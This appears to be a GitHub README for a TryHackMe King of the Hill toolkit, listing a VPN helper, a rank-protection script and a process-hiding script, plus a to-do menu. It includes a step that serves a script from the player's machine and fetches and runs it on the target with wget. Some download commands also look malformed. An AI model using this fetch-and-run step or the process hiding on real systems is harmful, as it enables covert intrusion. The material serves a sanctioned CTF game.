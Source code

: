 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`

---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/TryHackMe/main/King%20of%20the%20Hill/KoTH/KoTH ; chmod +x KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://github.com/Anlominus/TryHackMe/blob/main/King%20of%20the%20Hill/KoTH/KoTH-Protection ; chmod +x KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://github.com/Anlominus/TryHackMe/blob/main/King%20of%20the%20Hill/KoTH/KoTh-Hidding; && chmod +x KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`

---

# TryHackMe Menu ToDo

---

- [x] Scope
  - [ ] 1️⃣ Asking For Username:
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Data for Reporting:
  - [ ] 4️⃣ Asking Location For Reporting:
  - [ ] 5️⃣ Asking For IP Target: +~> Insert it to ${box_ip}
  - [ ] 6️⃣ Asking For Name Target: +~> Insert it to ${box_name}

---

- [x] Start
  - [ ] 1️⃣ Adding ${box_ip} ${box_name} ~>> /etc/hosts
    - `sudo echo "${box_ip}   ${box_name}" >> /etc/hosts`  
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Data for Reporting:

---

- [x] Stop
    - [ ] anonsurf status
    - [ ] anonsurf start
    - [ ] anonsurf stop

---

- [x] Status
    - [ ] Asking For Username:

---
